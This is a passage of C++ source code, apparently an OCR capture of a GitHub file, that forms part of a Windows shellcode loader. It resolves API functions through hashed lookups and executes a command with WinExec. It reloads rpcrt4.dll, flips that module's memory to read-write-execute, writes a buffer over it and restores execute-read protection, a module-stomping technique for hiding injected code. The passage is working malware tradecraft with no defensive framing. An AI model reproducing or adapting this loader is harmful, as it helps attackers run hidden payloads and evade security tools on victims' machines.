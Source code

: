 ```cpp
        printfFunc("OpenThread Failed.\n");
#endif
        return EXIT_FAILURE;
    }

#endif
    SleepFunc(SHORT_SLEEP);

    WinExecFunc((LPCSTR)WinExecCommand, 0);

#ifdef DEBUG_SLEEP
    // Sleep to inspect execution
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

#ifndef NO_LIB_RELOAD
    FreeLibraryFunc((HMODULE)GetModule(RPCRT4DLL_HASH));
    LoadLibraryFunc((LPCWSTR)rpcrt4dllName);
#endif

    DWORD oldProtect;

#ifdef _DEBUG
    printfFunc("StartAddress: 0x%llx\n", startAddress);
    printfFunc("Shellcode Size: %u\n", shellcodeSize);
#endif

    // Making the memory region RW
    VirtualProtectFunc((LPVOID)startAddress, shellcodeSize, PAGE_EXECUTE_READWRITE, &oldProtect);
#ifdef _DEBUG
    printfFunc("Memory is now RW\n");
#endif

#ifdef DEBUG_SLEEP
    // Sleep to inspect execution
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

    // We restore the memory content of the DLL
#ifdef WPM
    SIZE_T numberOfBytesWritten;
    BOOL success = WriteProcessMemoryFunc((HANDLE)-1, (LPVOID)startAddress, (LPCVOID)cbBuf, (SIZE_T)shellcodeSize, &numberOfBytesWritten);
#else

    memcpyFunc((LPVOID)startAddress, (LPVOID)cbBuf, shellcodeSize);
#endif

#ifdef _DEBUG
    printfFunc("Buffer copied\n");
#endif

#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

    // Making the memory region RX again
    VirtualProtectFunc((LPVOID)startAddress, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
#ifdef _DEBUG
    printfFunc("Memory is now RX\n");
#endif

```